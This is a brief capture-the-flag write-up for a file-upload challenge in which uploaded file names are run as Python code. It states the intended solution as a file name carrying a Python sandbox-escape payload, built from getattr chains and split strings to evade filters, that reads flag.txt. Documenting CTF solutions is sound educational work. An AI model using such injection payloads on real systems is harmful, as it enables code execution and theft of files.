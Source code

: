 # TheMostSecureFileUploader

**Description** : Somehow the codes are all messed up and it seems that it was my younger brother. He messed up my File Uploader. But I know you...You dont look like a hacker at all...Can you fix this for me? :)
  
**Author**: [c3rb3ru5](https://twitter.com/__c3rb3ru5__)
  
**Short solution**: The file name of the file that was uploaded was found to be executed as a Python command. Then use python inbuilt functions and classes to read `flag.txt`. The intended solution was to upload a file with the file name as `print getattr(getattr(getattr('','__cla''ss__'),'__mr''o__')[2],'__subc''lasses__')()[40]('flag').read()#.png`.

